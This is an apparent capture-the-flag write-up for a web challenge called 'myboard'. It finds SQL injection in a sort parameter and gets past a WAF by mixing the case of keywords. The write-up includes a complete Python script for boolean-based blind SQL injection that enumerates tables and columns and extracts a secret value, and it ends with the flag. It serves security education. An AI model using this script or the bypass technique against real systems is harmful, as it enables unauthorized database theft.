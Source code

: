 # [ Web ] myboard

## Description

It's Simple Board Service

http://3.38.182.27/

## Recon

First thing first we are given a web service. When the web is opened it will display like this

![](images/image.png)

So, this is just a normal website that displays the list of some data, but
after I look around the feature, this website has an ability to sort the
data.

When I try that sort feature the website will redirect to same url, but
with addition of query parameters, like this

![](images/image-1.png)

And the data will be sorted based on the value of key **sort_by**.

After that I try to input the quote (‘) character to check if its vulnerable with **sql injection**

![](images/image-2.png)

And yeah, it's true this website has a **sql injection vulnerability**. I assume that the value of key **sort_by is not filtered** and directly insert to the sql statement.

## Reference

Next, I try to search some reference about the sql injection in sort by statement, then I find **portswigger** article 

https://portswigger.net/support/sql-injection-in-the-query-structure

After look around and reading the article I concluded that this is categorized as **blind sql injection boolean based**.

![](images/image-3.png)

## WAF

Something the response of website is 403 or forbidden for some case, like this

![](images/image-4.png)

I assume that is have WAF inside the app maybe. So for bypass it I use combining case, example when try input **WHERE** I will change it to **WhErE**

## Exploit

For the exploit I built this scripting python code, why? because this is actually blind sql injection, and yeah I don’t want to try this manually, so this is my script

```py
import requests
from bs4 import BeautifulSoup
import string

target_url = "http://3.38.182.27?page=1&sort_by="


class Exploit:
    def __init__(self, subquery) -> None:
        self.subquery = subquery

    def send_request(self, index, guesser):
        global target_url
        payload = f"(CASE WHEN ({self.subquery.format(index)})={guesser} THEN id ELSE title END) DESC -- "
        res = requests.get(target_url + payload)
        if res.status_code > 400: exit(1)
        return res.text

    def check(self, html):
        soup = BeautifulSoup(html, "html.parser")
        indicator = soup.find("tbody").find("tr").find("td").text
        return indicator == "6"

    def run(self):
        possible = string.printable
        result = ""

        i = 1
        while True:
            for idx, c in enumerate(possible):
                html = self.send_request(i, ord(c))
                checking = self.check(html)

                if checking:
                    result += c
                    print(result)
                    break

                if idx == len(possible) - 1: exit(0)
            i += 1


if __name__ == "__main__":
    """
    Run this exploit in turns
    NOTE: Uncomment the exploit you want to run
    """

    # 1. get the all table names
    # exploit = Exploit("SeLect ASCII (BINARY SUBSTR(GROUP_CONCAT(table_name), {}, 1)) FROM information_schema.tables WHERE table_schema=database()")

    # 2. get the all column names
    # exploit = Exploit("SeLect ASCII (SUBSTR(GROUP_CONCAT(column_name), {}, 1)) frOm information_schema.columns WherE table_schema=database()")

    # 3. get the all column values of the table
    exploit = Exploit("SeLect ASCII (SUBSTR(GROUP_CONCAT(secret_flag), {}, 1)) frOm super_secret")

    exploit.run()
```

## Result

![](images/image-5.png)

## Flag

codegate2023{db6c96806d1d8a8dd38a54be3e3e432f}